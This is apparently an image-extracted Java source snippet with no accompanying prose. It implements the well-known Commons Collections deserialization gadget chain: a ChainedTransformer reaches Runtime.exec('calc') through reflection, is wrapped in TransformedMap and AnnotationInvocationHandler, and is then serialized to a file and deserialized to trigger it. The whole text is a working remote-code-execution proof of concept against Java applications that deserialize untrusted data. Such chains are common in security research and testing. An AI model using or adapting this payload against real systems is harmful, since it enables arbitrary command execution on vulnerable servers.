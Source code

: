 ```
    public void Test() throws Exception {

        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null,null }),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        });

        HashMap<Object, Object> map = new HashMap<>();
        map.put("value", "value");

        Map<Object,Object> decorated = TransformedMap.decorate(map, null, chainedTransformer);

        Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> declaredConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
        declaredConstructor.setAccessible(true);
        Object o = declaredConstructor.newInstance(Target.class, decorated);

        serialize(o);
        deserialize();

    }

    public void serialize(Object o) throws Exception {
        try (ObjectOutputStream oos = new ObjectOutputStream(Files.newOutputStream(Paths.get("ser.ser")))) {
            oos.writeObject(o);
        }
    }

    public Object deserialize() throws Exception {
        try (ObjectInputStream ois = new ObjectInputStream(Files.newInputStream(Paths.get("ser.ser")))) {
            return ois.readObject();
        }
    }

}
```
